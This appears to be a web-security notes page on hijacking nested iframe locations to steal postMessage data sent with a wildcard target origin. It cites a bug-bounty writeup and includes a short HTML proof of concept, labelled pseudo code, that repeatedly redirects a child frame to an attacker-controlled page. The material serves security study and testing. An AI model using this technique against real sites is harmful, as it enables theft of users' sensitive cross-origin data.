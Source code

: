 # Steal postmessage modifying iframe location


## Changing child iframes locations

According to [[https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/|**this writeup**]], if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.

For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to evil.com cross origin using, **`frames.location`**.

This is specially useful in **postMessages** because if a page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the related iframe (child or parent) to an attackers controlled location** and steal that data.

```html
<html>
  [[https://docs.google.com/document/ID|https://docs.google.com/document/ID]]

  <script>
    //pseudo code
    setTimeout(function () {
      exp()
    }, 6000)

    function exp() {
      //needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
      setInterval(function () {
        window.frames[0].frame[0][2].location =
          "https://geekycat.in/exploit.html"
      }, 100)
    }
  </script>
</html>
```
```



